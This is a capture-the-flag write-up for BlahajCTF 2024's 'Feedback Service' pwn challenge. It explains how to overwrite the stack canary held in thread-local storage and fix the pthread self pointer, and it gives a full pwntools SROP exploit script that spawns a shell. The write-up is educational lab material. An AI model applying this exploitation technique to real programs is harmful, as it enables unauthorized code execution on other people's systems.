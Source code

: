 ```yaml
---
title: Feedback Service
date: 2024-11-27
tags: 
- pwn
- author-fs
categories: BlahajCTF 2024
---
```


by {% person fs %}

> You ever heard of the book "To kill a mockingbird"? What about to kill a canary?


This challenge was meant to be a TLS canary overwite challenge and pop shell. 

Looking at the source code of this challenge, we see an obvious buffer overflow since the program doesnt restrict the size of input that we want to give in.

```c
void feedback(){
    int size;
    char buf[100];
    printf("Enter size of message: ");
    scanf("%d",&size); //doesn't check if the size we enter exceeds 100
    while (getchar()!='\n');
    printf("Enter your messaage: ");
    fgets(buf,size,stdin); //buufer overflow
    puts("Your feedback will be noted.\n");
    return;
}
```

However, this program has canary and you can't just overwrite the saved canary as the program checks if the canary has been modified and if it is, it'll say stack smashing detected and crash. But for a very intentional and weird reason, this program also uses threading.

```c
int main(){
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);	
    printf("Welcome to our feedback service 2.0! Please leave a message with a length of your choice and we will get back to you asap\n");
    printf("This might be useful %p\n",(void *)printf);
    setAlarm();
    pthread_t thread;
    if (pthread_create(&thread,NULL,thread_func,NULL)!=0){
        exit(1);
    }
    pthread_join(thread,NULL);
    return 0;
}
```

We see the program implements threading and also gives us free libc printf leak.

The saved canary is stored in TLS (thread-local storage: you can read about it here https://gcc.gnu.org/onlinedocs/gcc/Thread-Local.html)

Hence, this, combined with the fact I can give whatever size of input (like 3000), I can easily buffer overflow all the way to TLS and overwrite the canary there such that the canary that the thread refers to would be modified in TLS  (fs:0x28) and we could craft our own canary to easily pop shell. Now, we can find the offset to TLS easily using gdb which I think was around 2176 and overwrite the canary at offset 2216 since the canary is stored in fs:0x28. We can construct the payload as the following "A" * OFFSET TO RIP (around like 120) and this also means we are overwritng the canary and saved rbp value. We can then place our pop shell payload (which can either be a pop_rdi in libc + /bin/sh or an SROP payload since pop_rax and syscall gadgets are given). We can then continue ovewriting all the way to TLS and overwrite the saved canary in TLS at offset 2216 with "A"*8 (and this would match the canary near rbp) hence the program would not throw the stack smashing detected error.

However, if you were to simply do this, you're gonna get an error which is _pthread_enable_asynccancel() like the following 

![](../../static/BlahajCTF2024/error.png)

The reason to this is because the pthread_struct within glibc has a self header at fs:0x10 and basically the addres in the self-header gets de-referenced and is stored in rax register and the problem with this is that this address needs to be writeable or else glibc will complain and throw that error i mentioned. You can learn more about this with this link (https://www.theflash2k.me/blog/writeups/aofctf/pwn/birdy101) or the stuff I posted in #pwn of blahajctf discord  So, given that we can calculate the libc base address since we're given a printf leak, we can just calculate a writeable address within libc (can just search in libc using vmmap) and use it to overwrite the address at fs:0x10 (which is at offset 2192). 

With all of these information, we can structure the following payload (im using srop but can also use onegadget/classic ret2libc technique).

```py
from pwn import *

p=process("../dist/./program")
#p=remote("188.166.198.74","30009")
elf=ELF("../dist/./program")
gdb.attach(p)
context(os='linux',arch='amd64')
context.log_level='DEBUG'

libc=ELF("../dist/libc.so.6")

syscall=0x000000000040130f
pop_rax=0x000000000040130d

addr=p.recvuntil(b"useful ")
addr=p.recv(14)
addr=int(addr,16)-libc.sym.printf #calculating libc base address coz ASLR
print(hex(addr))

frame=SigreturnFrame() #defining out sigframe to do system("/bin/sh") call
frame.rax=0x3b
frame.rdi=addr+0x197e34
frame.rsi=0
frame.rsp=0x4040000
frame.rdx=0
frame.rip=syscall

p.sendlineafter(b"size of message:",b"2400")
payload_1=b"A"*120+p64(0x0000000000401016)+p64(pop_rax)+p64(0xf)+p64(syscall)+bytes(frame) #srop payload
payload_1+=b"A"*(2192-len(payload_1)) #we overwriting all the way to tls
#payload_1+=p64(addr+0x01d66c8) #writeable libc addr at pthread struct self header
payload_1+=(2216-len(payload_1))*b"A" #then just overwrite the rest of tls including fs:0x28
payload_1+=b"A"*8

p.sendlineafter(b"Enter your messaage:",payload_1) 

p.interactive() #enjoy shell
```

Running this, we get the flag ```blahaj{canary_master_101}```. 

Many people got stuck at the self header in pthread_struct coz they didnt know they had to overwrite it with a writeable address so hope this chall taught yall a bit more about canary and pthread exploitation
